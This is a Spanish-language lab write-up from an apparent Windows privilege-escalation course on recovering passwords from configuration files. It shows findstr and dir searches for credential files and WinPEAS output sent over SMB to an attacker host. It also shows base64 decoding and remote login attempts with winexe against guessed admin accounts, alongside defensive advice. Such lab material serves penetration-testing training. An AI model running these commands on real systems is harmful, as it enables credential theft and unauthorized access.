






> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]

---
# Contraseñas en Archivos de Configuración

# 📄 Contraseñas en Archivos de Configuración

 
 

## 📖 ENUNCIADO (DESCRIPCIÓN)

 

### 🔐 Escalado de Privilegios con Contraseñas

 

El escalado de privilegios mediante contraseñas es una técnica en la cual un atacante intenta obtener privilegios más altos en un sistema comprometido al obtener o crackear contraseñas de usuarios con privilegios inferiores. Esto les permite acceder a recursos restringidos y realizar acciones que normalmente no estarían permitidas.

 

### 🎯 Métodos de Obtención de Contraseñas

 

Algunos métodos para elevar privilegios a través de contraseñas son:

 

> [!warning]
> 
 
> #### ⚠️ Técnicas de Ataque con Contraseñas:
> 

> 

> 
> * 
> **Uso de contraseñas débiles o predecibles:** Los atacantes pueden intentar adivinar contraseñas débiles o predecibles que hayan sido configuradas por los usuarios o que estén presentes en listas comunes de contraseñas utilizadas. Esto se conoce como "ataque de fuerza bruta" o "ataque de diccionario". Los atacantes prueban múltiples combinaciones de contraseñas hasta encontrar una que funcione.
> 
 
> * 
> **Ataques de reutilización de contraseñas:** Muchos usuarios tienden a utilizar la misma contraseña para múltiples servicios o cuentas. Si un atacante obtiene acceso a una contraseña de usuario en un servicio o aplicación, puede intentar utilizar esa misma contraseña en otros servicios o en la cuenta de administrador del sistema para lograr un escalado de privilegios.
> 
 
> * 
> **Explotación de vulnerabilidades de hashing o almacenamiento de contraseñas:** Si un sistema almacena contraseñas en un formato inseguro o utiliza algoritmos de hashing débiles, los atacantes pueden intentar extraer las contraseñas directamente del sistema comprometido. Esto puede involucrar el uso de técnicas como ataques de inyección de SQL o aprovechar vulnerabilidades específicas en el sistema o en las aplicaciones que manejan las contraseñas.
> 
 
> * 
> **Uso de técnicas de robo de contraseñas:** Los atacantes también pueden utilizar malware, como keyloggers o spyware, para robar contraseñas mientras los usuarios las ingresan en sus sistemas. Estas técnicas capturan las pulsaciones de teclado o monitorean las actividades del usuario, obteniendo así las contraseñas que luego se utilizan para el escalado de privilegios.
> 

> 

 

### 🛡️ Medidas de Protección

 

Para protegerse contra el escalado de privilegios basado en contraseñas, se recomiendan las siguientes medidas de seguridad:

 

> [!tip]
> 
 
> #### ✅ Buenas Prácticas de Seguridad:
> 
 

> 
> * Utilizar contraseñas seguras y únicas para cada cuenta o servicio. Las contraseñas deben ser lo suficientemente complejas, incluyendo combinaciones de letras, números y caracteres especiales, y no deben ser fáciles de adivinar o encontrar en listas comunes de contraseñas.
> 
> * Implementar autenticación multifactor (MFA) siempre que sea posible. La autenticación multifactor agrega una capa adicional de seguridad al requerir una segunda forma de verificación, como un código generado en una aplicación móvil o un mensaje enviado al teléfono del usuario, además de la contraseña.
> 
> * Mantener los sistemas y aplicaciones actualizados con los últimos parches y actualizaciones de seguridad para mitigar vulnerabilidades conocidas.
> 
> * Utilizar soluciones de seguridad, como antivirus, firewalls y sistemas de detección de intrusos, para detectar y prevenir ataques de robo de contraseñas o malware.
> 
> * Educar a los usuarios sobre las mejores prácticas de seguridad, como no almacenar contraseñas en archivos de configuración en texto plano o codificadas de forma débil.
> 

> 

 

 
 

## 🔍 Descubriendo Contraseñas en Archivos de Configuración

 

> [!note]
> 
 
> #### 💡 ¿Por qué hay Contraseñas en Archivos?
> 
 
> Muchas aplicaciones y servicios almacenan configuraciones en archivos de texto como:
> 

> 
> * **.xml** - Archivos de configuración XML
> 
> * **.ini** - Archivos de inicialización
> 
> * **.txt** - Archivos de texto plano
> 
> * **.config** - Archivos de configuración de aplicaciones.NET
> 
> * **.cfg** - Archivos de configuración genéricos
> 
> * **.conf** - Archivos de configuración de servicios
> 

> 
> Estos archivos pueden contener:
> 

> 
> * Credenciales de bases de datos
> 
> * Contraseñas de servicios web (APIs)
> 
> * Credenciales de cuentas de servicio
> 
> * Claves de acceso cifradas (base64, ROT13, etc.)
> 

> 
> Aunque algunas están "codificadas" (base64, por ejemplo), **no están cifradas**, por lo que es trivial revertirlas.
> 

 

### 🔎 Paso 1: Búsqueda Manual de Archivos con Contraseñas

 

De forma manual, podemos hacer una búsqueda de contraseñas almacenadas en archivos de configuración:

 

#### 📂 Buscar Archivos con Nombres Relacionados

 

```cmd
C:\> dir /s *pass* == *.config
```

 



 

#### 🔍 Buscar Contenido con findstr

 

O mediante:

 

```cmd
C:\> findstr /si password *.xml *.ini *.txt
```

 


 

> [!tip]
> 
 
> #### 🔧 Comandos de Búsqueda Manual:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> `dir /s *pass*`
> 
> 
> 
> `dir /s *.config`
> 
> 
> 
> `findstr /si password *.xml`
> 
> 
> 
> `findstr /si password *.ini *.txt`
> 
> 
> 
> 
> | Comando | Descripción |
> | --- | --- |
> | | Buscar archivos recursivamente que contengan "pass" en el nombre |
> | | Buscar archivos.config recursivamente |
> | | Buscar "password" dentro de archivos.xml (sin distinguir mayúsculas) |
> | | Buscar en múltiples tipos de archivo |
> 
 
> **Parámetros de findstr:**
> 

> 
> * `/s` - Buscar en subdirectorios
> 
> * `/i` - Ignorar mayúsculas/minúsculas
> 
> * `/n` - Mostrar número de línea
> 
> * `/m` - Mostrar solo nombres de archivo
> 

> 

 

### 🛠️ Paso 2: Usar WinPEAS para Automatizar la Búsqueda

 

También podemos usar **WinPEAS**:

 


 

Si queremos podemos enviarlo directamente a nuestra Kali por SMB:

 



 

```cmd
C:\> winPEASany.exe quiet filesinfo >> \\10.0.0.5\info\winpeas_files.txt
```

 

### 📊 Paso 3: Analizar los Resultados

 

Vemos en el documento obtenido que hay un documento XML que guarda unas credenciales en lo que parece formato **base64**:

 



 

> [!warning]
> 
 
> **⚠️ Credenciales Codificadas Detectadas:**
> 
> WinPEAS ha encontrado un archivo XML con credenciales almacenadas en formato base64. Aunque están "codificadas", **NO están cifradas**, por lo que podemos decodificarlas fácilmente.
> 
> **Base64 NO es cifrado**, es solo una forma de codificar datos binarios en texto ASCII. Es trivial revertir base64 a texto plano.
> 

 

### 🔓 Paso 4: Decodificar las Credenciales

 

Decodificando el base64:

 



 

```powershell
# En Linux/Kali
$ echo "Y3JlZGVudGlhbHM=" | base64 -d

# En Windows PowerShell
PS C:\> [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("Y3JlZGVudGlhbHM="))

# Online
https://www.base64decode.org/
```

 

> [!note]
> 
 
> #### 🔓 Técnicas de Codificación Comunes:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> 
> **Base64**
> `cGFzc3dvcmQxMjM=`
> `echo "..." | base64 -d`
> 
> 
> **Hex**
> `70617373776f7264`
> `echo "..." | xxd -r -p`
> 
> 
> **URL Encoding**
> `password%40123`
> 
> 
> 
> **ROT13**
> `cnffjbeq`
> `echo "..." | tr 'A-Za-z' 'N-ZA-Mn-za-m'`
> 
> 
> 
> | Codificación | Ejemplo | Decodificación |
> | --- | --- | --- |
> | | | |
> | | | |
> | | | Decodificador URL online |
> | | | |
> 
 
> **Ninguna de estas es cifrado real** - todas son reversibles sin clave.
> 

 

 
 

## 💥 Explotando las Credenciales Encontradas

 

### 👤 Paso 1: Identificar el Usuario

 

Con las credenciales nos podremos conectar usando **winexe**.

 

No sabemos de qué usuario se trata, podemos obtener la lista de usuarios mediante:

 



 

```cmd
C:\> net user
```

 

Y sería cuestión de probar con varios usuarios:

 

### 🔗 Paso 2: Conectar con winexe desde Kali

 


 

```bash
$ winexe -U 'admin%password123' //10.0.0.200 cmd.exe
```

 

> [!tip]
> 
 
> #### 🎯 Estrategia de Prueba de Usuarios:
> 
 

> 
> 1. Enumerar usuarios con `net user`
> 
> 2. Probar primero con usuarios administrativos:
> 

> 
> * `Administrator`
> 
> * `admin`
> 
> * `adminis`
> 

> 
> 
> 3. Si no funciona, probar con usuarios estándar
> 
> 4. Si la contraseña funciona con un usuario estándar, buscar técnicas de escalada adicionales
> 

> 
> **Comandos de prueba:**
> 
> ```bash
> $ winexe -U 'Administrator%password_encontrado' //10.0.0.200 cmd.exe
> $ winexe -U 'admin%password_encontrado' //10.0.0.200 cmd.exe
> $ winexe -U 'adminis%password_encontrado' //10.0.0.200 cmd.exe
> ```
> 
 

 

### ✅ Paso 3: Verificar Acceso

 



 

> [!tip]
> 
 
> #### 🎉 ¡Éxito!
> 
 
> Hemos obtenido acceso remoto al sistema Windows utilizando credenciales encontradas en archivos de configuración.
> 
> Verificar privilegios:
> 
> ```cmd
> C:\> whoami
> C:\> whoami /priv
> C:\> whoami /groups
> ```
> 
 
> **Ventajas de esta técnica:**
> 

> 
> * ✅ Los archivos de configuración son fáciles de buscar
> 
> * ✅ Muchas aplicaciones almacenan credenciales de forma insegura
> 
> * ✅ Base64 y codificaciones similares son triviales de revertir
> 
> * ✅ No requiere herramientas especializadas (solo comandos nativos)
> 
> * ✅ Puede revelar credenciales de múltiples servicios/usuarios
> 

> 

 

 
 

## 📚 Resumen

 

> [!tip]
> 
 
> ### 🎓 Lo que hemos aprendido:
> 
 

> 
> * ✅ Archivos de configuración (.xml,.ini,.txt,.config) pueden contener credenciales
> 
> * ✅ Podemos buscar archivos manualmente con `dir` y `findstr`
> 
> * ✅ WinPEAS automatiza la búsqueda de archivos con información sensible
> 
> * ✅ Base64 NO es cifrado - es solo codificación reversible
> 
> * ✅ Otras codificaciones comunes: Hex, ROT13, URL encoding
> 
> * ✅ Podemos probar credenciales con múltiples usuarios usando winexe
> 
> * ✅ Esta técnica es común en entornos mal configurados
> 

> 
 
> ### 🔄 Flujo del Ataque:
> 
 

> [!note]
> 
 
> 
 **Buscar archivos** → 
> **Encontrar credenciales codificadas** → 
> **Decodificar (base64/hex/etc)** → 
> **Enumerar usuarios** → 
> **Probar credenciales con winexe** → 
> **Acceso con privilegios del usuario**
> 
> 

> 
 
> ### 🔑 Conceptos Clave:
> 
 
> 
> 
> 
> 
> 
> 
> 
> 
> **Archivos de Configuración**
> 
> 
> 
> **Base64**
> 
> 
> 
> **findstr**
> 
> 
> 
> **dir /s**
> 
> 
> 
> **winexe**
> 
> 
> 
> 
> | Concepto | Descripción |
> | --- | --- |
> | | Archivos que almacenan parámetros de aplicaciones (.xml,.ini,.config) |
> | | Codificación de datos binarios en texto ASCII (NO cifrado) |
> | | Comando Windows para buscar texto dentro de archivos |
> | | Comando para listar archivos recursivamente |
> | | Herramienta Linux para ejecutar comandos remotos en Windows |
> 

> 
> ### 📂 Archivos Comunes con Credenciales:
> 
 

> [!note]
> 
 
> ```cmd
> # Archivos de configuración de aplicaciones
> *.xml
> *.config
> *.ini
> *.txt
> *.conf
> *.cfg
> 
# Ubicaciones comunes
> C:\inetpub\wwwroot\web.config
> C:\Windows\System32\config\*
> C:\Program Files\*\*.config
> C:\Users\*\AppData\*\*.config
> 
# Comandos de búsqueda útiles
> findstr /si password *.xml *.ini *.txt *.config
> findstr /si "password\|passwd\|pwd" *.* 
> dir /s /b *.config
> dir /s /b *pass*
> ```
> 
 

> 
 
> ### 🎯 Navegación:
> 
 
> ← Práctica 05-02: Contraseñas - Almacenadas
> 
> → Práctica 05-04: Contraseñas - SAM
>

---

> [[02 - MODULOS/05 - Prácticas (PoCs)|← Volver a Prácticas (PoCs)]] | [[02 - MODULOS/Prácticas (PoCs)/Escalada de Privilegios en Windows/00 - Índice del Módulo Escalada de Privilegios en Windows|Índice del Módulo]]
